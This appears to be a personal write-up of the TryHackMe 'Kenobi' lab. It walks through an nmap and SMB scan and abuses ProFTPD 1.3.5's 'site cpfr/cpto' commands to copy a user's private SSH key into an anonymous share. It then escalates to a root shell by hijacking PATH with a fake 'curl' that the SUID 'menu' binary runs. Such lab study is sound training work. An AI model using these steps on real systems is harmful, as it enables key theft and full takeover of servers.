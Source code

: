 # Kenobi (THM)

- https://tryhackme.com/room/kenobi
- March 17, 2023
- easy

---

## Enumeration

### Nmap

```
PORT     STATE SERVICE     REASON  VERSION
21/tcp   open  ftp         syn-ack ProFTPD 1.3.5
22/tcp   open  ssh         syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
111/tcp  open  rpcbind     syn-ack 2-4 (RPC #100000)
139/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
2049/tcp open  nfs_acl     syn-ack 2-3 (RPC #100227)
```

### SMB

- check with smbmap

```
Disk       	Permissions	Comment
----        	-----------	-------
print$     	NO ACCESS	Printer Drivers
anonymous  	READ ONLY	
IPC$       	NO ACCESS	IPC Service (kenobi server (Samba, Ubuntu))
```

- enter `anonymous` file share and found log.txt
- get `log.txt` to local machine to analyse 
- Summary of log.txt

```
- create ssh id_rsa under /home/kanobi/.ssh directory
- ProFTPD installation at port 21
- smb [anonymous]
    path = /home/kenobi/share
    browseable = yes
    read only = yes
    guest ok = yes

```

### FTP

- Version -> ProFTPD 1.3.5
- from searchsploit, can found 4 vulns

![](screenshots/2023-03-17-01-57-36.png)

- This FTP version is vulnerable to copy any file from system
- there is also `id_rsa` inside `/home/kenobi/.ssh/id_rsa` which is known from `log.txt`
- enter ftp with `ftp $IP`
- login failed but `site help` command works

1. There is `id_rsa` file under `/home/kenobi/.ssh`
2. The smb anonymous share is mounted under `/home/kenobi/share`
3. So, copy the id_rsa under smbshare that we can enter

```sh
site cpfr /home/kenobi/.ssh/id_rsa # it shows exists
site cpto /home/kenobi/share/id_rsa # copy under share
```
- then exist and enter smb anonymous login and found id_rsa
- `get id_rsa` and then exists 
- there is `id_rsa` file in local machine
- chmod 600 to id_rsa

## User Access

- enter ssh as kenobi user with id_rsa

```sh
$ ssh kenobi@$IP -i id_rsa
```
- `sudo -l` can't run as we don't know kenobi's password
- find suid 
- `find / -perm -4000 2> /dev/null`
- found `/usr/bin/menu` which is not normal unix binary
- run `menu`

```sh
kenobi@kenobi:~$ menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :

```
- `strings /usr/bin/menu` found these

![](screenshots/2023-03-17-02-13-01.png)

- `curl`, `uname` are running without a full path and we can use this fact to escalate our user

```sh
kenobi@kenobi:~$ cd /tmp
kenobi@kenobi:/tmp$ echo '/bin/bash' > curl 
kenobi@kenobi:/tmp$ chmod +x curl
```
1. Go to tmp folder
2. Create curl file and inside put `/bin/bash` 
3. make it executable and if execute, just call bash shell. If root user runs it, we'll get root shell

```sh
kenobi@kenobi:/tmp$ PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ echo $PATH
/tmp:/home/kenobi/bin:/home/kenobi/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```
- Change the PATH variable by adding /tmp folder, so that system will check under tmp folder first
   

## Root Access

- just run `menu` and choose 1 as option 1 will use `curl`
- Get root shell as root user

![](screenshots/2023-03-17-02-20-59.png)

---